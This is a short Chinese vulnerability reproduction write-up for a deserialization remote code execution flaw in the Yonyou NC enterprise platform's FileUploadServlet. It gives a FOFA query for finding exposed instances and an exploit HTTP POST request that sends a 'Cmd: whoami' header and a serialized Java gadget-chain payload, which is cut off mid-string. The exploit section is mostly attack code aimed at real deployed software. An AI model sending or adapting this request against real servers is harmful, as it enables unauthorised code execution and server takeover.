

# 用友NC FileUploadServlet 反序列化RCE漏洞复现

### 0x01 产品简介

 用友 NC 是用友网络科技股份有限公司开发的一款大型企业数字化平台。

### 0x02 漏洞概述

  用友 NC nc.file.pub.imple.FileUploadServlet 反序列化漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 复现环境

FOFA：app="用友-UFIDA-NC"



### 0x04 漏洞复现

Exp 

```cobol
POST /servlet/~baseapp/nc.file.pub.imple.FileUploadServlet HTTP/1.1
Host: your-ip
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 20434

{
  {unquote("\xac\xed\x00\x05sr\x00\x11java.util.HashSet\xbaD\x85\x95\x96\xb8\xb74\x03\x00\x00xpw\x0c\x00\x00\x00\x01?@\x00\x00\x00\x00\x00\x01sr\x004org.apache.commons.collections.keyvalue.TiedMapEntry\x8a\xad\xd2\x9b9\xc1\x1f\xdb\x02\x00\x0
```
